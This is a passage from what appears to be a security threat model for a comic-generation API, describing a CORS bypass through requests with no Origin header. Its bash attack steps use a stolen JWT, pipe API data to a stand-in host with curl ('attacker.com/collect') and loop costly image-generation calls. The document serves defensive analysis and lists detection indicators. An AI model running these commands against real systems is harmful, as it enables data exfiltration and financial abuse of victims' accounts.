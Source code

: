 #### Detection Indicators
- Impersonation token used from different IP than admin
- Multiple impersonation sessions active simultaneously
- Unusual geographic locations
- Suspicious user actions during impersonation

---

### Attack 1.4: CORS Bypass via No-Origin Requests
**Attack Vector:** Client-Side/API  
**Complexity:** Low  
**Impact:** High  
**MITRE ATT&CK:** T1557 (Man-in-the-Middle)

#### Description
Application allows requests without Origin header, bypassing CORS protection entirely.

#### Attack Steps
```bash
# Step 1: Obtain victim's JWT token (via XSS, malware, or phishing)
STOLEN_TOKEN="eyJhbGciOiJSUzI1NiIs..."

# Step 2: Make API requests without Origin header from attacker server
curl -X POST https://api.example.com/comics \
  -H "Authorization: Bearer $STOLEN_TOKEN" \
  -H "Content-Type: application/json" \
  --data @malicious_comic.json

# Step 3: Exfiltrate data
curl https://api.example.com/comics \
  -H "Authorization: Bearer $STOLEN_TOKEN" \
  | curl -X POST https://attacker.com/collect -d @-

# Step 4: Generate expensive AI content
for i in {1..100}; do
  curl -X POST https://api.example.com/comics/generate-image \
    -H "Authorization: Bearer $STOLEN_TOKEN" \
    -d '{"panelDescription":"expensive generation"}'
done
```

#### Success Criteria
- CORS allows no-origin requests
- JWT token obtained through other means
- No additional verification required

#### Impact Assessment
- Unauthorized API access from any server
- Data exfiltration to attacker infrastructure
- Financial damage through API abuse
- Bypasses browser-based CORS protection

---
